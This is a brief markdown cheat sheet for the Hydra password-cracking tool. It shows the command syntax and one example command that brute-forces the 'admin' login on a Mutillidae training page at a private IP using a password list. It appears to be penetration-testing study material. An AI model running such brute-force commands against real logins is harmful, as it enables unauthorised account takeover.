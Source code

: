 # Hydra

## Syntax
```hydra [ip]  -l [usernames] -P [passwords] [service]```

## Example 
```bash
hydra 10.20.14.212 -l admin -P /root/test.txt http-post-form "/mutillidae/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Not Logged In"
```
